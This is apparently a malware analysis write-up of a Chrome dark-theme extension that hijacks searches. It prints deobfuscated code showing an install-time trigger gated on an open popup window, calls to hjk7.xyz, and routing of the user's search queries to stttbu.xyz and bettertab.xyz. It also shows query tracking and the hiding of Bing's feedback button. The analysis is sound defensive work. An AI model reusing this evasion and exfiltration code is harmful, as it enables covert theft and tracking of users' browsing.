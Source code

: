 # Code Analysis
After dissecting the Obfuscated javascript code we learn the following: 
apart from using the setLight and stopLight messages between the background.js and the content.js to switch between the background color to either black or original, the extension can do a few extra things which all depend on one API call, the “chrome.runtime.onInstalled”:
```javascript
chrome.runtime.onInstalled.addListener(function (e) {
	if("install" === e.reason)
		chrome.windows.getAll({populate: !0}, (tabs) => {
			var t;
			for (let j= 0; j <= tabs.length - 1; j++)
				tabs[j].type.includes(cobal("peachpuff", 5, 7)) &&
				(eu(), setTimeout(function () {
						darkerput(1800);
						chrome.tabs.create({url: "https://hjk7.xyz/ty?id=" + exid.split("").reverse().join("")})
						chrome.windows.remove(tabs[j].id, function () {
						});
					}, 1e3)
				)
		}), fetch(ty);
});
```
This will trigger the full capability of this extension. To better understand this, let's break down the call into a few key points:

1.	onInstalled.addListener sets up an event listener that triggers when the extension is either installed or updated, the if(“install” == e.reason) means the following will trigger only for when the extension is first installed.

2.	Chrome.windows.getAll - This line retrieves data from all open windows and their tabs.

3.	tabs[j].type.includes(cobal("peachpuff", 5, 7)) && - this condition will determine if the extension will run maliciously or not, since it has a &&, for the next few functions to run, this condition needs to be met.

  	cobal() is a string manipulation function, which with the provided string, it comes out as ‘pu’, tabs.type is the type of tab you have open, it can only be a few options: normal, popup, panel, app and devtools. 

**This means that for the extension to reveal its true behavior, a popup window needs to be open during the installation process.** 

# No Popup
When no popup windows are present, the extension will skip over the eu(), darkerput() and the tab creation and removal seen above. Because of that, the “initial” value which is stored inside the chrome.storage will not be defined as “default”:
![image](https://github.com/user-attachments/assets/a0ec0ef4-054e-45f6-bae8-8d3f5857ff98)

This means the variable “i” will remain undefined since “initial” != “default”:
```javascript
chrome.storage.local.get(["initalcolor"], function (s) {
	if (s.color === "default")
		i = true
});
```
leading to skipping the entire 370 lines of code after this “if” condition which is un-met:
```javascript
if (i == !0 && s == !1 && "loading" === tab.status && !colchk(cobal("Bhaclebstoc blue", 5, 10)))
```
This part of the code after the "if" condition, is in charge of the malicious activities it can preform, without it the extension performs like any other simple dark theme extension.

# With Popup
If one of the tabs is considered a popup, the rest of the code under the runtime.onInstalled runs: 

•	The function eu() is triggered, setting i = true, which will allow the code within the chrome.tabs.onUpdated.addListener (containing the if condition above)  
to be executed later.

•	A new tab is opened with the URL contructed by reversing the ‘exid’ meaning: 
```https://hjk7.xyz/ty?id=mhfalkcmmkajgecgcnaceipcoenh```

•	The tab containing the popup will close

•	The fetch command will trigger a request being made for an external domain.

From this point the following behavior can be seen when using a search engine: 

1.	Typing something in the search engine like google will trigger the chrome.tabs.onUpdated:
```javascript
chrome.tabs.onUpdated.addListener(function (tabid, status, tab) {
	tu = tab.url, colchk(exid) && !colchk("errors") && colos(tabid)
	function rgbConverthsl({ h, s, l, a = 1 }) {
		if (s === 0) {
			const [r, b, g] = [l, l, l].map((x) => Math.round(x * 255));
			return { r, g, b, a };
		}
```
2. 	The URL is checked if it contains the ‘exid’ and ‘errors’ strings, if it contains the ‘exid’ and not the ‘errors’, the tab will close (using the colos() function).

3.	It passes through the “if” condition we’ve talked about earlier (since “i” is now defined)
 

4.	The payload containing the search query is saved inside the “c” variable

5.	A new tab is opened and redirected to ```https://stttbu.xyz/ssc/pda?p={added payload}```
essentially meaning it uses a GET request to transfer my search query to an external domain

6.	We are then being redirected to this URL - ```https://www.bettertab.xyz/searchapi/redirect.aspx?q={added payload}&channel=2188
&pid=bbtab```

7.	To then being redirected a final time to bing.com - ```https://www.bing.com/search?q={added payload}```

8.	Once the process is finished, the original tab with the initial query for google.com is closed. (the entire process takes about 1.5-2 seconds)

9.	Before completing its process, it also creates an array using the “c” variable to store all the payloads we've inputted (essentially tracking my activity). Here’s an example after numerous searches:

![image](https://github.com/user-attachments/assets/33d8ab14-7822-4cef-8d81-9e85b0edfec3)

10. Last thing to mention besides the different delays it’s invoking, the extension sends the setLight message:  setTimeout(()=>chrome.tabs.sendMessage(e.id, {setLight: 1}), 5e3).
Inside the content.js it triggers the continueSetLight function: 
```javascript
function darkSet(request, sender, sendResponse) {
	if(request.setLight)
		continueSetLight(request, sender, sendResponse);
	if (request.stoplight) {
```
```javascript
function continueSetLight(request, sender, sendResponse) {
	document.getElementById('bg') && (document.getElementById('sb_feedback').style.backgroundColor = 'white')
	document.getElementById('bg') && (document.getElementById('bg').style.backgroundColor = 'white')
	document.getElementById('sb') && (document.getElementById('sb').style.backgroundColor = 'white')
	document.getElementById('fg') && (document.getElementById('fg').style.backgroundColor = 'white')
	document.getElementById('sb_feedback') && (document.getElementById('sb_feedback').style.display = 'none')
}
```
Besides enabling "Light Mode" and changing the background color of several DOM elements to white, it also hides the 'sb_feedback' element, which conceals a button on the bing.com page:

![image](https://github.com/user-attachments/assets/01912aa4-efb4-4315-850f-9802b074d39a)

![image](https://github.com/user-attachments/assets/e8a44342-3019-490d-9f3c-b30ed473d90b)

![image](https://github.com/user-attachments/assets/6b12edd3-3b24-4299-a587-9b314f9b612f)


# Example Process

1. ![image](https://github.com/user-attachments/assets/b9c59b22-94b9-4f7e-b92f-6d7ec25bbfca) searching something on Google
2. ![image](https://github.com/user-attachments/assets/90924973-1277-4644-9fe9-2d23647a99a8) new tab creation
3. ![image](https://github.com/user-attachments/assets/0c1432a5-e9df-43c4-8a55-4324d78031a5) Redirection 1
4. ![image](https://github.com/user-attachments/assets/5fcb1d71-f9e3-4f8d-8c65-fa1a32d72f4c) Redirection 2

When applying a search query the first domain requested is ```sttbu.xyz```:
![image](https://github.com/user-attachments/assets/195256e6-f1a1-46cc-b2c9-67b547e2f80f)

We can observe the payload (in this case “hello”) that I entered in the Google.com search bar being uploaded and transferred to this external domain through a GET parameter. Additionally, several types of cookies are being included, which are probably used for user profiling and session management and affiliate ID’s.

The second domain which im redirected to is ```www.bettertab.xyz```: 
Again we see my search query being transferred and some more cookie keys added: 
![image](https://github.com/user-attachments/assets/7137a310-8791-4788-bc25-f40a85a8bbdb)












